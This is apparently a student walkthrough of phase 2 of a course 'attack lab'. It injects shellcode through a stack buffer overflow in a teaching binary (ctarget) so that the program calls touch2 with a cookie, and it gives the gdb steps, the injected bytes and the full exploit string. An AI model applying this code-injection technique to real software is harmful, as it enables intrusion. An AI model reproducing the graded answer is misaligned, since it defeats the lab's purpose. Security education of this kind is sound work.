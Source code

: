**UPDATED** 

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the ctarget dump and search for touch2, it looks something like this:

```
000000000040178c <touch2>:
  40178c:	48 83 ec 08          	sub    $0x8,%rsp
  401790:	89 fe                	mov    %edi,%esi
  401792:	c7 05 e0 30 20 00 02 	movl   $0x2,0x2030e0(%rip)        # 60487c <vlevel>
  401799:	00 00 00 
  40179c:	3b 3d e2 30 20 00    	cmp    0x2030e2(%rip),%edi        # 604884 <cookie>
  4017a2:	75 1b                	jne    4017bf <touch2+0x33>
  4017a4:	bf a0 30 40 00       	mov    $0x4030a0,%edi
  4017a9:	b8 00 00 00 00       	mov    $0x0,%eax
  4017ae:	e8 8d f4 ff ff       	callq  400c40 <printf@plt>
  4017b3:	bf 02 00 00 00       	mov    $0x2,%edi
  4017b8:	e8 dc 04 00 00       	callq  401c99 <validate>
  4017bd:	eb 19                	jmp    4017d8 <touch2+0x4c>
  4017bf:	bf c8 30 40 00       	mov    $0x4030c8,%edi
  4017c4:	b8 00 00 00 00       	mov    $0x0,%eax
  4017c9:	e8 72 f4 ff ff       	callq  400c40 <printf@plt>
  4017ce:	bf 02 00 00 00       	mov    $0x2,%edi
  4017d3:	e8 73 05 00 00       	callq  401d4b <fail>
  4017d8:	bf 00 00 00 00       	mov    $0x0,%edi
  4017dd:	e8 ce f5 ff ff       	callq  400db0 <exit@plt>
```

If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi." 

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called phase2.s and write the below code, replacing the cookie and  with yours

```
  movq $0x434b4b70,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```

Now you need the byte representation of the code you wrote above. compile it with gcc then dissasemble it

```
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```

Now open the file phase2.d and you will get something like below

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 70 4b 4b 43 	mov    $0x434b4b70,%rdi
   c:	c3                   	retq   
```

The byte representation of the assembly code is `48 c7 c7 70 4b 4b 43 c3`

Now we need to find the address of rsp register

run ctarget through gdb 

`gdb ctarget`

set a breakpoint at getbuf 

`b getbuf`

run ctarget

`r`

Now do 

`disas`
 
 You will get something like below (this doesn't match the above code as it is an updated version)
```
   0x000000000040182c <+0>:	  sub    $0x18,%rsp
   0x0000000000401830 <+4>:	  mov    %rsp,%rdi
   0x0000000000401833 <+7>:	  callq  0x401ab6 <Gets>
=> 0x0000000000401838 <+12>:	mov    $0x1,%eax
   0x000000000040183d <+17>:	add    $0x18,%rsp
   0x0000000000401841 <+21>:	retq   

```

Now we need to run the code until the instruction just below `callq  0x401ab6 <Gets>` so you will do something like

`until *0x401838` 

Then it will ask you type a string...type a string longer than the buffer(24 characters in this case). After that do

`x/s $rsp` 

You will get something like

```
(gdb) x/s $rsp
0x55620cd8:	"ldsjfsdkfjdslfkjsdlkfjsdlkfjsldkfjsldkjf" // the random string I typed
```
The address on the left side is what we want. `0x55620cd8`

Now, create a text file named phase2.txt which will look something like below and don't forget the bytes for rsp and touch2 go in reverse
```
48 c7 c7 70 4b 4b 43 c3 /*this sets your cookie*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
d8 0c 62 55 00 00 00 00 /* address of register %rsp */
8c 17 40 00 00 00 00 00 /*address of touch2 function */
```
Run it through hex2raw

`./hex2raw < phase2.txt > raw-phase2.txt`

Finally, you run the raw file

`./ctarget < raw-phase2.txt`

What the exploit does is that first it sets register rdi to our cookie value is transferred to $rsp register
so after we enter our string and getbuf tries to return control to the calling function, we want it to point to the rsp address 
so it will execute the code to set the cookie and finally we call touch2 after the cookie is set.

```
Cookie: 0x434b4b70
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
